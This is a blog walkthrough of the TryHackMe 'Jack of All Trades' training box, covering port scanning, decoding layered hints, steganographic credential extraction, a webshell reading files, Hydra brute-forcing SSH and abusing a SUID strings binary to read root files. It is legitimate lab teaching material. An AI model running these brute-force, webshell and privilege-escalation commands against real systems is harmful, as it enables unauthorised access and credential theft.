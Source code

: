 ```yaml
---
layout: post
title: "TryHackMe - Jack of All Trades Walkthrough"
author: "joona"
---
```


![](/images/jackbox/header.jpg)
>Jack is a man of a great many talents. The zoo has employed him to capture the penguins due to his years of penguin-wrangling experience, but all is not as it seems... We must stop him! Can you see through his facade of a forgetful old toymaker and bring this lunatic down?

[Jack of All Trades](https://tryhackme.com/room/jackofalltrades) is an easy Linux box and was originally part of the [Securi-Tay 2020 conference](https://securi-tay.co.uk/).
It includes basic steganography and enumeration. Getting the root flag requires brute-forcing the initial access and then using a service with SUID bit
to print out the root flag.<br/><br/>

### Nmap results<br/>
{% highlight plaintext %}
nmap -A -p- 10.10.72.112 -oA nmap/jack
PORT   STATE SERVICE VERSION
22/tcp open  http    Apache httpd 2.4.10 ((Debian))
80/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
{% endhighlight %}

So the SSH and HTTP ports are inverted. By default Firefox can't open a website
at port 22 and gives a warning:
>This address uses a network port which is normally used for purposes other than Web browsing. Firefox has canceled the request for your protection.

You can bypass this by overriding banned ports in `about:config`.<br/>
Guide: [https://support.mozilla.org/en-US/questions/1083282](https://support.mozilla.org/en-US/questions/1083282)<br/><br/>

### Website enumeration
At first I was just trying to speedrun this box and instead of searching how to bypass that Firefox warning, I curl'd the website:
>curl 10.10.72.112:22

In the homepage source code we have a Base64 string and a comment:
{% highlight plaintext %}
<!--Note to self - If I ever get locked out I can get back in at /recovery.php! -->
UmVtZW1iZXIgdG8gd2lzaCBKb2hueSBHcmF2ZXMgd2VsbCB3aXRoIGhpcyBjcnlwdG8gam9iaHVudGluZyEgSGlzIGVuY29kaW5nIHN5c3RlbXMgYXJlIGFtYXppbmchIEFsc28gZ290dGEgcmVtZW1iZXIgeW91ciBwYXNzd29yZDogdT9XdEtTcmFxCg==
{% endhighlight %}
The Base64 translates to:
>Remember to wish Johny Graves well with his crypto jobhunting! His encoding systems are amazing! Also gotta remember your password: u?WtKSraq

![](/images/jackbox/homesource.jpg)

Curl the `recovery.php` site we get another Base64 looking string.
{% highlight plaintext %}
GQ2TOMRXME3TEN3BGZTDOMRWGUZDANRXG42TMZJWG4ZDANRXG42TOMRSGA3TANRVG4ZDOMJXGI3DCNRXG43DMZJXHE3DMMRQGY3TMMRSGA3DONZVG4ZDEMBWGU3TENZQGYZDMOJXGI3DKNTDGIYDOOJWGI3TINZWGYYTEMBWMU3DKNZSGIYDONJXGY3TCNZRG4ZDMMJSGA3DENRRGIYDMNZXGU3TEMRQG42TMMRXME3TENRTGZSTONBXGIZDCMRQGU3DEMBXHA3DCNRSGZQTEMBXGU3DENTBGIYDOMZWGI3DKNZUG4ZDMNZXGM3DQNZZGIYDMYZWGI3DQMRQGZSTMNJXGIZGGMRQGY3DMMRSGA3TKNZSGY2TOMRSG43DMMRQGZSTEMBXGU3TMNRRGY3TGYJSGA3GMNZWGY3TEZJXHE3GGMTGGMZDINZWHE2GGNBUGMZDINQ=
{% endhighlight %}

This one is in all caps so it's probably Base32.
Throwing this into [CyberChef](https://gchq.github.io/CyberChef/) we get:
{% highlight plaintext %}
45727a727a6f72652067756e67206775722070657271726167766e79662067622067757220657270626972656c207962747661206e657220757671717261206261206775722075627a72636e7472212056207861626a2075626a20736265747267736879206c6268206e65722c20666220757265722766206e20757661673a206f76672e796c2f3247694c443246
{% endhighlight %}

CyberChef automatically identifies this as Hex which translates to a ROT13 encrypted string, which translates to:
{% highlight plaintext %}
Erzrzore gung gur perqragvnyf gb gur erpbirel ybtva ner uvqqra ba gur ubzrcntr!
V xabj ubj sbetrgshy lbh ner, fb urer'f n uvag: ovg.yl/2GiLD2F

Remember that the credentials to the recovery login are hidden on the homepage!
I know how forgetful you are, so here's a hint: bit.ly/2TvYQ2S
{% endhighlight %}
<br/>

### Steganoraphy and Initial Foothold
The shortened URL redirects to a Wikipedia article [Stegosauria](https://en.wikipedia.org/wiki/Stegosauria), hinting that the credentials are probably hidden
inside of a picture on the homepage. <br/>

First I grabbed the most obvious choice `10.10.72.112:22/assets/stego.jpg`.<br/>
Running steghide on that gave a text file called `creds.txt`:
{% highlight plaintext %}
root@world:~/tryhackme/jackofall# steghide extract -sf stego.jpg
Enter passphrase: u?WtKSraq
wrote extracted data to "creds.txt".

root@world:~/tryhackme/jackofall# cat creds.txt
Hehe. Gotcha!
You're on the right path, but wrong image!
{% endhighlight %}

After this one there was to more options left, header.jpg and jackinthebox.jpg.<br/>
Thinking that I ain't finna get finessed two times in a row, I went after the `header.jpg` and
gave it the same treatment as stego.jpg. This resulted in file called `cms.creds`:
{% highlight plaintext %}
Here you go Jack. Good thing you thought ahead!

Username: jackinthebox
Password: TplFxiSHjY
{% endhighlight %}

We can use these credentials to login on `10.10.72.112:22/recovery.php`.<br/>
![](/images/jackbox/recoverypage.jpg)

After logging in we are redirected to a new page:
![](/images/jackbox/recovery2.jpg)

It seems we have a simple webshell that we can use. Listing the contents of `/home`-directory we see an interesting file `jacks_password_list`.<br/>
{% highlight plaintext %}
10.10.72.112:22/nnxhweOV/index.php?cmd=ls /home
10.10.72.112:22/nnxhweOV/index.php?cmd=cat /home/jacks_password_list
{% endhighlight %}
![](/images/jackbox/pass.jpg)


We get twenty-something passwords we can try to login with.
I saved the passwords to a text file and tried to brute-force the SSH-login (port 80).
{% highlight cmd %}
hydra -l jack -P pass.txt ssh://10.10.72.112 -s 80
{% endhighlight %}
![](/images/jackbox/hydra.jpg)<br/>

Logging in to SSH with the credentials we find `user.jpg` in jack's home directory.<br/>
We can download it with SCP:
{% highlight plaintext %}
scp -P 80 jack@10.10.72.112:/home/jack/user.jpg
{% endhighlight %}
![](/images/jackbox/user.jpg)<br/><br/>

### Root Flag
Running the enumeration tool [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
on the victim machine, we see that `string`-command has SUID bit set.
We can use this to [read files](https://gtfobins.github.io/gtfobins/strings/) like root.txt:
{% highlight console %}
jack@jack-of-all-trades:~$ LFILE=/root/root.txt
jack@jack-of-all-trades:~$ strings "$LFILE"
ToDo:
1.Get new penguin skin rug -- surely they won't miss one or two of those blasted creatures?
2.Make T-Rex model!
3.Meet up with Johny for a pint or two
4.Move the body from the garage, maybe my old buddy Bill from the force can help me hide her?
5.Remember to finish that contract for Lisa.
6.Delete this: ~~~censored root flag~~~
{% endhighlight %}

We could also use this to read the /etc/shadow and crack the hashes, or try to find SSH-keys.
